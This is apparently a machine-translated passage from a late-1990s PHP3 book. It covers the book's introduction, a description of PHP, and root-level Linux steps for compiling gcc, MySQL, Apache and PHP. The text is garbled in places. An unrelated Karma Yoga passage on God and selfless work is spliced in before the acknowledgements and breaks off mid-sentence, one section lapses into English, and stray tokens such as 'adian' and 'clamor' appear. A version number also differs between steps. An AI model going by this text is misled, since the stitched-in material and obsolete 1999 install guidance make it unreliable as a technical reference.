










# PHP3：基于浏览器的应用程序开发


# 引言

这本书和我所有的书一样，基于实践出真知的原则，因为我相信仅仅阅读某个主题并不是最佳的学习方式。毕竟，你不会通过阅读来了解如何拼拼图，而是亲自去拼！编程也是如此。你必须实际运行一些程序才能真正理解这些概念。

PHP 展示了如何以有机的方式创建应用程序。在这本书中，你从简单的程序开始，逐步添加功能。

技术主题以直接、非技术性的方式讲解，让你能快速理解基本原理。每章的主要主题引入后，子主题会在各自的章节中探讨。每个章节都有自己的 PHP 示例。

书中穿插的插曲章节应该会吸引硬核程序员。插曲章节的目标是展示代码的使用，即使所使用的所有函数并未在正文章节中详细解释。

# 谁应该使用这本书？

如果你是编程新手，这本书非常适合你。第 4 章和第 5 章提供了 PHP 语言的入门介绍。第 7 章则介绍了数据库。阅读完这些章节后，你可以随意选择其余章节——你的知识储备足以理解本书覆盖的任何其他主题。

有经验的程序员可能希望专注于更复杂的章节。例如，第 9 章涵盖了模式匹配，这常常让即使是高级程序员感到困惑。

本书采用的方法旨在服务于从初学者到高级用户的广泛读者群体。如果你从未编程过，实践出真知的方法将帮助你快速轻松地阅读本书。如果你有编程经验，你会发现大量材料来精炼和提升你已掌握的知识，并让你对 PHP 的工作方式有扎实的理解。

# 需要什么？

你需要一台运行 Linux 的计算机；其他一切都可以在这本书所附的光盘中找到。

# 如何使用这本书

你有几种方式可以使用这本书。一种明显的方法是从第一页开始，按顺序阅读直到最后一页。大多数初学者可能会想使用这种方法，本书的设计就是让每一章都建立在上一章的基础之上。或者，你可以专注于插曲章节，遇到不熟悉的概念时再跳回技术章节。

提示

> 在开始任何重大项目之前，至少通读一遍 PHP 函数列表（附录 D）至关重要。否则，你可能会花费数小时开发一个已经存在的函数。

# 代码清单

许多读者喜欢手动输入大部分示例代码；这有助于他们一次专注于一行代码。另一个好方法是完成一章中的示例后，合上书，凭记忆手动输入。你所经历的挣扎有助于加深理解。请记住，迷路可以帮助你学会找到方向。

如果你很懒、打字不快，或者像我的某些朋友一样容易手腕疼痛，你可以从本书所附光盘中复制清单。光盘上的每个清单都有这样的清单头：

```
Listing 0.1 example.php3—这是一个示例清单头
```

```
// 这是一个示例程序行。
```

每个示例之后，稍微实验一下，看看会发生什么。更改一些东西，或者添加一些内容，稍微修改代码。这将帮助你更享受学习体验。成功学习体验最重要的属性是乐趣。如果它有趣且你享受其中，你就会坚持下去更长时间。

# 约定

本书使用以下约定：

- 代码行、函数、变量名以及你在屏幕上看到的任何文本以特殊的等宽字体显示。

- 文件名也以等宽字体显示。

- 新术语使用*斜体*。

- 在 PHP 编程中，大小写非常重要。始终注意变量名和函数名中的大小写。

- 如果需要你输入文本，你必须输入的文本将以**粗体**显示。例如，"输入 **./mysqlshow**。" 不过，通常该行会单独以等宽字体显示，如下所示：

```
./mysqlshow
```

- 命令和关键字以**粗体**显示。

# 概述

第 1 章，"PHP 是什么？"，介绍了 PHP 的描述，它如何集成到 Apache Web 服务器中，以及它能执行哪些任务。第 2 章，"安装 PHP"，展示了如何将 MySQL 数据库和 PHP 编译为 Apache Web 服务器模块，支持 ODBC、XML、模式匹配和 MySQL。

接下来的两章专注于 PHP 编程语言的技术细节。第 3 章，"PHP 中的数据处理"，涵盖了变量、字面量和影响它们的运算符。第 4 章，"控制你的程序"，讨论了表达式、语句和函数。

第 5 章，"插曲一：连接数据库"，通过使用 PHP 连接 MySQL 数据库，将 PHP 语言置于实际应用场景中。这一章是第 6 章，"数据库与 SQL" 的前导。第 6 章介绍了表和记录等基本数据库概念。此外，还讨论了称为 SQL（结构化查询语言）的数据定义和数据操作语言。

第 7 章，"插曲二：维护列表"，展示了如何整合 PHP 和 SQL 来维护一个包含月份名的数据库表。第 8 章，"phpMyAdmin：MySQL 的开源前端"，介绍了一个开源应用，它提供了查看和修改任何 MySQL 数据库的能力。

第 9 章，"模式匹配"，和第 10 章，"面向对象"，涵盖了关于 PHP 语言的更多技术细节。模式匹配是查找和可选替换文本的能力。面向对象编程让数据和函数可以存储在一起。实际上，面向对象编程比这个简单定义要复杂得多，但你可以阅读第 10 章了解详情。

第 11 章，"插曲三：创建 HTML 模块"，通过开发一种从 PHP 脚本内部显示 HTML 的方法，让你从技术术语中解脱出来。

接下来的几章回归更多教学模式。第 12 章，"什么是 CGI？"，探讨了 Web 服务器与为响应 Web 浏览器请求而执行的程序之间关系的基础。尽管 PHP（在本书中）是 Apache Web 服务器的组成部分，但它遵循 CGI 规则。第 13 章，"认证"，展示了如何更好地了解你的 Web 访客。涵盖了向用户发起用户 ID 和密码挑战的基本技术。

第 14 章，"真实世界的 SQL"，更深入地讨论了 SQL。涵盖了表之间的不同关系，以及引用完整性的概念。第 15 章，"插曲四：管理并发访问"，使用 PHPLIB 模块来认证用户并防止多个用户同时修改一条记录。


第16章和第17章探讨XML。首先，第16章"XML"深入介绍了XML与HTML之间的区别和相似之处。本章涵盖了文档类型定义（即DTD）的主题。第17章"使用PHP处理XML"展示了如何解析XML（即读取并理解其标签），并将XML中的信息转移到PHP变量中。

附录A"Internet资源"列出了通过Internet可获取的几种资源类型，包括邮件列表和Web站点。附录B"ASCII表"展示了所有ASCII码及其对应字符。附录C"SQL参考"提供了SQL语句、运算符和函数的速查列表。附录D"PHP函数列表"按字母顺序列出了PHP的众多函数。附录E"CD-ROM上有什么？"描述了CD的内容。

## 业瑜伽 — 2

这个世界不属于懦夫。不属于那些即使已尽力却仍为自己的挫折哀叹的人。它属于那些能穿越熊熊烈日和最黑暗荒野的人。绝不要昏倒。绝不要停止。唯有这样的人，世界才属于他。

我们在此是为了工作。这个世界既不是"泪之谷"，也不是"伊甸园"。它是人的工场。上帝要我们工作，不是哭泣。大自然会把她的宝藏藏在那些为她努力尝试、甘愿受苦的人心中。那些完全无知者的唯一人生目标，就是做正确的事，即抵抗邪恶、献身于上帝或他的事业。做到这点的人就能获得知识。那些能长时间做正确的工作、心中常念上帝、不计较结果的人，就能获得解脱，即做到那些已达至完美知识对那些人所说的正确工作。对于普通人来说，要在很大程度上表现出勤奋和无私通常是非常困难的。因此，精神进步必须通过以正确心态工作来实现。利他主义的工作或许是达到此目的最佳手段。如果你看到人，就在人中看到上帝。

我们如何能在人中看到上帝，当你工作时，不要依赖外部环境。关键是要做好你的本职工作，并践行

## 致谢

我要感谢McGraw-Hill的全体人员，是他们使本书得以出版——尤其是Simon Yates，当我告诉他我在本书终稿阶段要去欧洲度假时，他并没有抱怨。Robert Kern及其制作团队在极短时间内将本书整合在一起，出色地完成了工作。

Rasmus Lerdorf值得特别感谢，因为他最初创建了PHP——并将其发布给全世界。

G. Triad创始人Jerry Libertelli将我介绍给了Brad Morton（他帮助撰写了身份验证一章）。在本书写作期间，Jerry及其团队为我的测试环境和客户提供了PHP与Linux支持和服务。

## 什么是PHP？

PHP是编程语言和应用服务器的结合体。这种编程语言与许多其他语言相似，它有变量来存储临时值，也有操作符来操纵变量。PHP的真正价值在于它作为应用服务器的角色。

当我提到应用服务器时，我指的是将多种技术整合到一个包中的程序。这些技术包括：

- 健壮的编程语言
- 访问数据库以持久存储数据
- 支持Internet协议，尤其是电子邮件和HTTP

**注意** 应用服务器还可以有许多其他功能，但以上列表是最基本的要素。

通过为这些不同的技术提供前端，PHP使你的工作更加轻松。

本章其余部分是关于PHP及其在应用开发中角色的各种观察的杂集。

### 起源

PHP由Rasmus Lerdorf创建。它最初是一个用Perl编写的简单程序，用于跟踪访问他在线简历的访客。后来被用C语言重写，其范围扩大到包括数据库访问。大约在这个时候，人们开始索要该程序的副本以供自己使用。Rasmus编写了一些文档，并发布了PHP v1.0。越来越多的人使用PHP，他们 clamor 要求增加额外功能，如循环语句和数组变量。到那时，其他程序员开始贡献代码（Zeev Suraski和Andi Gutmans是主要贡献者），显然PHP需要从头开始重写。于是，PHP v3.0诞生了。

### 特性

PHP的特性包括：

- 开源——PHP的所有源代码都是可获得的。事实上，它包含在随书附带的CD-ROM中。
- 免费实现——PHP是免费的。
- 服务器端——因为PHP在Web服务器上运行，所以PHP程序可以很大很复杂，而不会降低客户端的速度。
- 跨平台——PHP程序可以在UNIX、Linux或Windows计算机上运行，不过本书重点介绍Linux。
- 嵌入HTML——因为PHP语言嵌入在HTML中，所以容易学习。
- 简洁的语言——与Java或C++不同，PHP语言坚持基础，但它却足够强大，可以支持任何规模的Web站点。
- 高效——与其他解释型语言相比，PHP消耗的系统资源非常少。当作为Apache Web服务器的一部分构建时，代码执行不需要调用外部二进制文件——服务器直接解释脚本，没有任何开销。
- XML解析——你可以构建能够读取基于XML信息的PHP版本。
- 数据库模块——你可以使用PHP访问Oracle、Sybase、MS SQL、Adabas D、MySQL、mSQL、PostgreSQL、dBase、FilePro、Solid、Unix dbm、Informix/Illustra，以及任何支持ODBC标准的数据库。
- 文件输入/输出——PHP有许多函数可以处理任何文件处理需求。
- 文本处理——PHP有许多函数可以处理文本，包括模式匹配功能。
- 复杂变量——PHP支持标量、数组和关联数组变量。这为你提供了支持高级数据结构的坚实基础。
- 图像处理——你可以使用PHP动态创建图像。
- 还有更多！

## PHP的成本是多少？

PHP是免费的。完整的源代码和文档可以免费复制、编译、打印和分发。你用PHP编写的任何程序都归你所有，你可以随意处置；就PHP而言，无需支付版税，也没有任何分发限制。

不过，它并非完全"公共领域"，而且有非常充分的理由。如果源代码完全属于公共领域，就可能有人对其进行轻微修改，编译后出售——换句话说，就是占其创建者的便宜。另一方面，如果不分发源代码，就难以确保所有想要使用它的人都能使用。

GNU通用公共许可证是一种分发免费软件的方式，可以避免有人占你的便宜。在这种许可证下，源代码可以自由分发，任何人都可以使用，但任何使用此类代码衍生的程序必须在同类型许可证下发布。换句话说，如果你从GNU许可的源代码派生出任何源代码，你就必须向任何想要的人发布你的源代码。

## PHP语言嵌入在HTML中

当使用"经典"语言（如C或Pascal）编程时，所有源代码都被编译成可执行adian文件。然后运行该可执行文件以生成HTML标签，供远程Web浏览器显示。另一方面，PHP不会被编译（至少不会编译成可执行文件）。你可以将PHP代码与HTML混杂在一起。例如，以下代码显示"Hello, world!"。PHP代码以**粗体**显示。

```
<HTML>
  <HEAD><TITLE>Test</TITLE></HEAD>
  <BODY>
    <?PHP $string = 'world!'; ?>
    <H1>Hello, <?php echo $string ?></H1>
  </BODY>
</HTML>
```

（就本书而言）PHP应用服务器与Apache Web服务器紧密集成——你甚至可以说它们是一个程序。当Web浏览器请求PHP Web

页面时，Web服务器的PHP部分开始介入。它会检查所请求的Web页面，寻找`<?PHP ... ?>`标记并执行找到的任何代码。

PHP代码生成的任何输出都会替换掉生成它的`<?PHP ... ?>`标记。例如，在PHP代码执行后，前面的Web页面看起来像这样：

```
<HTML>
  <HEAD><TITLE>Test</TITLE></HEAD>
  <BODY>
    <H1>Hello, world!</H1>
  </BODY>
</HTML>
```

注意，所有的PHP代码都不见了，只剩下HTML。由PHP代码生成的HTML以**粗体**显示。

## PHP语言在Web服务器上执行

在开发Internet应用程序时，非常重要的是要知道你的程序在哪里执行。PHP总是、总是在Web服务器上执行。不要笑我强调这一点。在未来某个时刻，当你思考正在设计的某个应用程序的功能时，有人会因不知道PHP在哪里执行而犯错。不要让那个人是你。

PHP不能与Java小程序、ActiveX或JavaScript直接比较，因为它们都是由客户端的Web浏览器执行的。然而，你可以轻松地将所有这些语言与你的PHP应用程序结合使用。只需使用PHP生成激活小程序或ActiveX控件所需的任何HTML，或者对于JavaScript，你可以动态生成JavaScript语句。如果你是Internet应用程序开发的新手，这可能不太容易理解。希望在读完本书后，你会变得清晰明了。

## PHP无处不在

*Ubiquitous*（无处不在）可能是一个充满热情的词，但截至1999年7月，已有近600,000个网站使用PHP。1999年夏季关于Linux和开源运动的新闻洪流似乎启动了PHP社区的快速发展。你可以在http://www.php.net/usage.php3查看显示趋势的图表。

此外，PHP邮件列表每天大约收到80条消息，即每月2,500条消息。这表明了一个繁荣的开发者社区。使用PHP的公司包括三菱汽车、沃尔沃、红帽软件、E*Trade、第一美国银行、旧金山巨人队和圣地亚哥动物园。

### PHP与C或Java相似吗？

PHP程序与C程序有*一定的相似之处*，因为PHP源自C、Perl和Java。C的一些繁琐之处——比如字符串处理技术——通过PHP类似Perl的方式得以简化。而Java的一些面向对象的特性也影响到了PHP。

PHP可以很好地处理底层任务。如果你需要某些代码执行得特别快，你可以相对容易地编写基于C的PHP模块。

### PHP比ColdFusion、Active Server Pages或Java Server Pages更好吗？

以真正的顾问风格，我会回答这个问题，*既是又不是*。

答案是"是"，因为它的成本（免费）以及通过邮件列表和IRC提供的全球支持网络。而且PHP在不断改进。如果你希望有一个今天还没有的某个功能，等几个月。有人可能正在编写这个功能。

答案也是"否"，因为商业软件比PHP有更多的功能。例如，Allaire的ColdFusion附带了一个Verity搜索引擎。微软的Active Server Pages技术提供了与Outlook（一个电子邮件和工作组程序）集成的能力。而Java Server Pages让你可以利用互联网上提供的大量开源模块。

## 小结

互联网上对PHP的描述比比皆是，本章仅简要提及了PHP的一些特性以及PHP被认为是设计Internet应用程序的最佳工具之一的原因。

下一章"安装PHP"将带你逐步完成编译、安装和测试PHP的过程。

## 安装PHP

本章向你展示如何编译和安装gcc C编译器、MySQL数据库以及带PHP模块的Apache Web服务器。如果你不确定你的计算机需要哪些组件，那就全部安装。

本章的安装说明基于全新安装的Red Hat Linux v5.2和v6.0。由于v5.2附带的C编译器版本不够新，无法完成使PHP工作所需的所有编译，我从互联网下载了gcc v2.8.1，并在本章中也包含了该版本的编译说明。

**注意** 本章可在http://www.mtolive.com/phpbook/获取。使用复制粘贴技术可以避免一些打字错误。

本章所示步骤将编译和安装以下软件：

- **Apache v1.3.4**—世界上最流行的Web服务器。
- **gcc v2.8.1**—来自GNU的C和C++组合编译器。
- **MySQL v3.22.16b-gamma**—全球许多人使用的数据库。
- **PHP v3.0.11**—本书的全部内容所在。如果你直接从http://www.php.net（或其镜像站点）下载软件，可能会获得更新的版本。本章的步骤应该仍然有效。
- **expat**—用于读取和处理XML文档的函数库。
- **phplib**—用于处理会话管理的PHP函数库。
- **libiodbc**—主要用于访问非UNIX计算机上数据库的ODBC函数库。
- **MyODBC**—PHP、iODBC和MySQL之间的接口库。

虽然本章确实提到了编译应用程序所需的命令，但它们只是简要描述。毕竟，本书的重点是PHP语言，而不是C语言。每个应用程序都为我干净地编译了，希望你也有同样的好运。如果你确实遇到问题，可以在IRC频道提问（要有礼貌！），或者你可能会尝试某个Usenet新闻组（通过http://www.dejanews.com访问）来获取如何解决问题的帮助。然而，最好的帮助来自http://www.php.net的PHP邮件列表。

在开始编译之前，让我们谈谈如何从错误中恢复。在获得有关问题的帮助后，使用以下命令重新初始化源代码目录：

**rm config.cache**—几乎所有Linux应用程序都使用一个名为**configure**的命令来检查你的系统，寻找有关如何定制编译过程的信息。检查的结果存储在一个名为config.cache的文件中。通过删除这个文件，你强制configure程序从头开始检查你的系统。

**make distclean**—所有用C编程语言编写的Linux应用程序都使用make程序进行编译。make程序查看每个源文件并决定是否需要编译，或者是否已经编译过了。**make distclean**命令"重置"所有源文件，以便可以重新编译。

**make clean**—有些应用程序不支持**make distclean**命令；相反，它们提供了**make clean**命令。**make clean**命令也会"重置"源文件，以便可以重新编译。

你正在安装的一些程序可能不支持这些命令中的每一个，但尝试它们不会造成任何损害。

> Red Hat v5.2使用glibc库。如果你从互联网下载本章中安装的其他程序或其更新版本，你需要了解这条信息。你可以使用**rpm -q glibc**命令找出已安装的glibc库版本。在我的系统上，这个命令显示glibc-2.0.7.29。

## 基本概念

如果你以前从未编译过Linux应用程序，你需要熟悉几个概念，以便在问题出现时有机会诊断它们。

### tar

*tar*，或*tape archiver*（磁带归档器），将多个文件合并为一个，并可选择压缩文件以减小其大小。它最初旨在创建可以存储在磁带上的备份。当tar文件被压缩时，它们的扩展名为.gz；否则扩展名为.tar。

### gcc

*gcc*是GNU的C编译器。它的工作是将源代码（人类可读）文件编译成目标（机器可读）文件。C源文件通常具有.c扩展名。目标文件通常具有.o扩展名。如果编译不能正常工作，你会遇到编译时或*语法*错误。大多数时候，不完整的编译是由于编译器无法找到一个或多个头文件引起的。头文件具有.h扩展名，用于定义各种特定于系统的信息，并将多个.c文件使用的信息收集到一个位置。

### make

*make*是一个辅助编译的实用程序。它的工作是只编译那些尚未编译的源文件。编译.c文件的结果是创建.o文件。如果.c文件比.o文件新——即自上次编译以来已被编辑——那么make会重新编译该.c文件。make通常会寻找一个*Makefile*来读取其指令。Makefile可以包含一个或多个可以执行的目标。例如，**make clean**告诉make你想执行clean目标。

### ld

*ld*是GNU的链接器程序。它的工作是将所有目标文件和库拼接在一起，创建一个单一的可执行文件。希望你永远不必手动运行这个程序，因为Makefile会处理所有的编译细节。

### ldconfig

*ldconfig*搜索各种库目录（在/etc/ld.so.conf中指定）中的共享库。共享库被多个应用程序使用，其文件名中某处有.so。例如，libqt.so.1.42是一个共享库。每次


 compilation, you might need to append a directory to the /etc/ld.so.conf file and run the **ldconfig -v** command.

## ./configure

*configure* searches your computer looking for key information such as which C compiler is installed and where your header files are located. It then modifies Makefiles as needed to target your computer configuration. *configure* is nearly always executed using **./configure** so that you can run the executable from the current directory instead of accidentally running it from some other directory located in your $PATH environment variable.

## 符号链接

*符号链接*让你可以用不同的名称来引用现有文件。例如，你可能想用`libqt.so.1`来引用`libqt.so.1.42`。符号链接本质上让你能够将文件"复制"到不同的目录并赋予不同的名称，而无需真正执行复制操作。第二个文件实例只是简单地"指向"第一个实例。使用符号链接至少有两个优点：第一是符号链接占用更少的硬盘空间——可能仅需16字节。第二个优点则更为微妙。假设你有一个名为`libqt.so.1`的符号链接，它指向`libqt.so.1.42`。如果你需要升级到`libqt.so.1.88`怎么办？你只需更改符号链接，让`libqt.so.1`指向`libqt.so.1.88`而不是`libqt.so.1.42`。这意味着引用`libqt.so.1`的程序会自动开始使用较新版本的库。按照惯例，符号链接用于整数版本发布。换言之，`libqt.so.1.88`和`libqt.so.2.32`会有不同的符号链接（分别为`libqt.so.1`和`libqt.so.2`）。

## 编译前的准备工作

以下步骤为你的系统编译做好准备：

1. **mkdir /usr/local/src**——我将`/usr/local`目录树用于安装到系统的所有应用程序。其他人可能会使用`/usr/opt`、`/opt`或`/var`。为了让你能轻松跟上本章的命令，请坚持使用`/usr/local`目录树。编译完成后，你可以将文件复制到其他位置。

### 注意

> 执行本章的步骤需要以root身份登录。

2. **cd /usr/local/src**——进入源代码目录。

3. 下载以下文件（从 http://www.mtolive.com/phpbook）或从本书附带的CD中复制到/usr/local/src：

- apache_1.3.4.tar.gz
- gcc-2.8.1.tar.gz
- mysql-3.22.16b-gamma.tar.gz
- php-3.0.11.tar.gz
- expat.tar.gz
- phplib.tar.gz
- libiodbc-2.50.3
- myodbc-2.50.24-src

4. 使用tar命令解压文件。x选项告诉tar进行解压。v选项告诉tar显示正在从档案中提取的文件名。z选项告诉tar进行解压。f选项告诉tar你在命令行上指定了.tar文件。

```
tar xvzf apache_1.3.4.tar.gz
tar xvzf gcc-2.8.1.tar.gz
tar xvzf mysql-3.22.16b-gamma.tar.gz
tar xvzf php-3.0.11.tar.gz
tar xvzf expat.tar.gz
tar xvzf phplib.tar.gz
```

5. **gcc -v**

确定你的系统当前安装的gcc版本。如果你没有v2.7.2.3，请将下一步中显示的"2.7.2.3"替换为你当前的gcc版本号。

6. **cp \`which gcc\` /usr/bin/gcc-2.7.2.3**

复制现有的gcc可执行文件，以便将来需要时使用。Linux的优点之一就是你可以轻松地在目录中存储多个版本的程序。

7. **httpd -v**

确定你的系统上加载的Apache版本。如果你没有v1.3.4，请将下一步中显示的"1.3.4"替换为你当前的Apache版本号。

8. **mv \`which httpd\` /usr/sbin/httpd-1.3.4**

复制现有的Apache可执行文件，以便将来需要时使用。

## 编译gcc，C编译器

你应该首先编译和安装的程序是C编译器。Red Hat v5.2自带的C编译器是gcc v2.7.2.3，这个版本不足以正确编译PHP。但是，gcc v2.7.2.3可以用来编译gcc v2.8.1，而后者版本足够新。

要编译新版本的gcc：

1. **cd /usr/local/src/gcc-2.8.1**

进入gcc的顶层目录。

2. **./configure --prefix=/usr/local/gcc**

运行配置程序并强制设置安装目标，使gcc安装到/usr/local/gcc。

3. **make bootstrap LANGUAGES="c c++" BOOT_CFLAGS="-g -O2"**

编译新的C和C++编译器。

4. **make install LANGUAGES="c c++" BOOT_CFLAGS="-g -O2"**

安装新的C和C++编译器。

5. **mv /usr/local/gcc/bin/gcc /usr/local/gcc/bin/gcc-2.8.1**

重命名新的gcc编译器，使其名称中包含版本号。

6. **ln -s /usr/local/gcc/bin/gcc-2.8.1 /usr/bin/gcc**

创建从/usr/bin/gcc到新编译的gcc可执行文件的符号链接。

7. **gcc -v**

显示版本号。如果编译和安装成功，应该显示v2.8.1。

## 编译MySQL

现在是时候编译MySQL了。编译完成后，你可以使用MySQL工具程序来测试安装。

1. **cd /usr/local/src/mysql-3.22.16a-gamma**

进入MySQL的顶层目录。

2. **./configure --prefix=/usr/local/mysql**

运行配置程序并强制设置安装目标，使MySQL安装到/usr/local/mysql。

3. **make**

编译MySQL。

4. **make install**

安装MySQL。

5. **echo "/usr/local/mysql/lib/mysql" >> /etc/ld.so.conf**

将MySQL库追加到**ldconfig**命令的配置文件中。当Linux启动或运行**ldconfig**命令时，会搜索该配置文件中的目录（以查找库文件）。

6. **ldconfig -v | grep libmysqlclient**

**ldconfig**命令读取/etc/ld.so.conf文件中列出的目录，并缓存找到的所有库。**grep**命令从**ldconfig**命令的大量输出中搜索MySQL库，并将显示的文本限制为类似`libmysqlclient.so.6 => libmysqlclient.so.6.0.0`的内容。

7. **echo "/usr/local/mysql/bin/safe_mysqld > /dev/null &" >> /etc/rc.d/rc.local**

将MySQL启动命令追加到/etc/rc.d/rc.local文件中，以便Linux启动时自动启动MySQL。

8. **`./scripts/mysql_install_db`**

初始化数据库。

9. **`/usr/local/mysql/bin/safe_mysqld > /dev/null &`**

以后台进程方式启动MySQL服务器。必须先启动服务器，才能测试安装。

10. **`ln -s /usr/local/mysql/bin/mysql /usr/bin/mysql`**

我喜欢从安装位置创建符号链接到`/usr/bin`目录。这种技术可以减少PATH环境变量中的目录数量。它还可以隐藏任何你不希望普通用户运行的MySQL工具（例如，**mysqladmin**命令）。另一种技术是将命令`PATH="$PATH:/usr/local/mysql/bin"`放入`/etc/profile`文件中。两种方法都可以。

11. **`ln -s /usr/local/mysql/bin/mysqlshow /usr/bin/mysqlshow`**

此命令允许普通用户运行**mysqlshow**命令。

## 测试MySQL

在继续编译Apache和PHP之前，请花时间测试你的MySQL安装。MySQL发行版附带了许多工具，但我们只会使用**mysql**和**mysqlshow**命令来进行测试。（如果你不熟悉数据库，不用担心。数据库概念如用户、表和记录将在第6章"数据库与SQL"中介绍。）

**mysqladmin**工具让你可以创建和删除数据库、检查MySQL状态以及执行许多其他操作。首先，通过检查版本确保你已正确安装：

```
> PATH="/usr/local/mysql/bin:$PATH"
> mysqladmin version
Ver 7.8 Distrib 3.22.16a-gamma, for pc-linux-gnu on i686
TCX Datakonsult AB, by Monty
Server version 3.22.16a-gamma
Protocol version 10
Connection localhost via UNIX socket
UNIX socket /tmp/mysql.sock
Uptime: 2 hours 30 min 39 sec

Threads: 1 Questions: 7 Slow queries: 0
Opens: 6 Flush tables: 1 Open tables: 2
```

你可以使用此命令查看mysqladmin的所有功能：

```
mysqladmin --help | less
```

也许更令人兴奋的工具是*mysqlshow*，它显示数据库、表和字段的列表：

## 清单 2.1 mysqlshow——显示数据库、表和字段列表

```
> PATH="/usr/local/mysql/bin:$PATH"
> # 不带参数时，显示数据库列表。
> mysqlshow
+------------+
| Databases |
+------------+
| mysql    |
| test     |
+------------+
```

```
> # 指定数据库时，需要通过安全验证。
> # 结果是显示该数据库中所有表。
> mysqlshow -h mtolive.com -u root -p mysql
Enter password: password
Database: mysql
+----------------+
|     Tables    |
+----------------+
| active_sessions |
| auth_user      |
| columns_priv   |
| db             |
| func           |
| host           |
| tables_priv    |
| user           |
+----------------+
```

> # 同时指定数据库和表时，
> # 显示该表的字段。

 ```
> mysqlshow -h mtolive.com -u root -p mysql user
Enter password: password
Database: mysql  Table: user  Rows: 5
+---------------+----------------+------+-----+-------+-------+
| Field         | Type           | Null | Key | Def.  | Extra |
